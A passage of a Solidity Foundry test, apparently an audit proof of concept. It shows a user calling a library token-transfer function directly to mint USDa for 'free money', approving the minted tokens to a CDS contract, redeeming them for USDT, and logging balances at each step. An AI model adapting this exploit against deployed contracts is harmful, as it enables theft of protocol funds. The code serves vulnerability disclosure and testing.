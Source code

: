 ```solidity
        console.log("eth balance of user before transfer", ethBalanceBeforeTransfer);

        //params don't even matter that much, it's free money
        BorrowLib.transferToken(
            IUSDa(address(contractsA.usda)),
            1,
            address(contractsA.treasury),
            address(USER),
            ETH_AMOUNT, //amount requested
            1e18, //collateral price
            1 // option fees
        );

        //get usda balance of user after transfer
        uint256 usdaBalanceAfterTransfer = contractsA.usda.balanceOf(address(USER));
        console.log("usda balance of user after transfer", usdaBalanceAfterTransfer);

        //user's eth balance after transfer
        uint256 ethBalanceAfterTransfer = address(USER).balance;
        console.log("eth balance of user after transfer", ethBalanceAfterTransfer);

        //get user's usdt balance
        uint256 usdtBalance = contractsA.usdt.balanceOf(address(USER));
        console.log("usdt balance of user", usdtBalance);

        //approve usda to cds
        contractsA.usda.approve(address(contractsA.cds), usdaBalanceAfterTransfer);

        console.log("Allowance:", contractsA.usda.allowance(USER, address(contractsA.cds)));

        console.log(address(contractsA.cds));

        // Provide sufficient ETH for the native fee
        uint256 requiredFee = 5420504000000000; // Replace with dynamic fee if available


        //can call cdslib directly too
        // Redeem USDT
        contractsA.cds.redeemUSDT{value: requiredFee}(uint128(1e18), 1, 1);

        //usdt balance of user after redeem
        uint256 usdtBalanceAfterRedeem = contractsA.usdt.balanceOf(address(USER));
        console.log("usdt balance of user after redeem", usdtBalanceAfterRedeem);

        //user's eth balance after paying fee
        uint256 ethBalanceAfterPayingFee = address(USER).balance;
        console.log("eth balance of user after paying fee", ethBalanceAfterPayingFee);
        vm.stopPrank();
    }
}

```
